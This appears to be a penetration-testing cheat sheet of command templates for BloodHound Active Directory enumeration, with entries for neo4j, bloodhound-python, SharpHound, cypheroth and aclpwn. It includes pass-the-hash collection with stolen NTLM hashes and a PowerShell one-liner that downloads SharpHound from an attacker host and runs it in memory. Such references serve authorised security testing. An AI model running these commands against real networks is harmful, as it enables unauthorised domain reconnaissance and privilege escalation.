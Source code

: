 # bloodhound

% bloodhound, Active directory enumeration

## start neo4j server
#plateform/linux #target/serve #cat/UTILS
https://neo4j.com/docs/

```bash
sudo systemctl start neo4j
```

## bloodhound start IHM
#plateform/linux #target/local #cat/RECON
https://github.com/BloodHoundAD/BloodHound

```bash
bloodhound
```

## bloodhound - collect data (proxychains)
#plateform/linux #target/remote #port/389 #port/631 #cat/RECON
https://github.com/fox-it/BloodHound.py

```bash
bloodhound-python -d <domain> -u <user> -p <password> -c <method|DCOnly> --auth-method <method|ntlm> --dns-tcp -ns <dc_ip> -dc <dc_name> -v
```

## bloodhound - collect data (pth) (proxychains)
#plateform/linux #target/remote #port/389 #port/631 #cat/RECON
https://github.com/fox-it/BloodHound.py
requiere both lm_hash and nt_hash
```bash
bloodhound-python -d <domain> -u <user> --hashes <lm_hash>:<nt_hash> -c <method|DCOnly> --auth-method <method|ntlm> --dns-tcp -ns <dc_ip> -dc <dc_name> -v
```

## bloodhound - collect data forest (pth) (proxychains)
#plateform/linux #target/remote #port/389 #port/631 #cat/RECON
https://github.com/fox-it/BloodHound.py
requiere both lm_hash and nt_hash
```bash
bloodhound-python -d <target_domain> -u <user>@<domain> --hashes <lm_hash>:<nt_hash> -c <method|DCOnly> --auth-method <method|ntlm> --dns-tcp -ns <target_domain_ip>  -v
```

## bloodhound - collect data
#plateform/linux #target/remote #port/389 #port/631 #cat/RECON
https://github.com/fox-it/BloodHound.py

```bash
bloodhound-python -d <domain> -u <user> -p <password> -c <method|DCOnly>
```

## bloodhound - collect data (kerberos)
#plateform/linux #target/remote #port/389 #port/631 #cat/RECON
https://github.com/fox-it/BloodHound.py
add the DNS to /etc/hosts 

```bash
bloodhound-python -d <domain> -u <user> -p <password> -c <method|DCOnly> -ns <ip> --kerberos
```

## bloodhound - collect data (dns)
#plateform/linux #target/remote #port/389 #port/631 #cat/RECON
https://github.com/fox-it/BloodHound.py

```bash
bloodhound-python -ns <ip> -d <domain> -u <user> -p <password> -c <method|DCOnly>
```

## bloodhound - collect data (alternative)
#plateform/linux #target/remote #port/389 #port/631 #cat/RECON
https://github.com/fox-it/BloodHound.py

```bash
bloodhound-python -d <domain> -u <user> -p <password> -gc <global_catalog> -dc <domain_controler> -c <method|DCOnly>
```

## sharphound - collect bloodhound data
#plateform/windows #target/remote #port/389 #port/631 #cat/RECON
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors

```powershell
import-module sharphound.ps1
invoke-bloodhound -collectionmethod <method|DCOnly> -domain <domain>
```

## sharphound - collect bloodhound data download and execute
#plateform/windows #target/remote #port/389 #port/631 #cat/RECON
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors

```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/SharpHound.ps1') | Invoke-BloodHound -CollectionMethod All  -domain <domain>
```

## cypheroth - start
#plateform/linux #target/local #cat/RECON 
Toolset that runs cypher queries against Bloodhound's Neo4j backend and saves output to spreadsheets.

https://github.com/seajaysec/cypheroth

```bash
cypheroth -u <bh_user|neo4j> -p <bh_password|exegol4thewin> -d <domain>
```

## aclpwn - from computer to domain - dry run
#plateform/linux #target/local #cat/RECON 
Aclpwn.py is a tool that interacts with BloodHound to identify and exploit ACL based privilege escalation paths.

https://github.com/fox-it/aclpwn.py

```
aclpwn -f <computer_name> -ft computer -d <domain> -dry
```



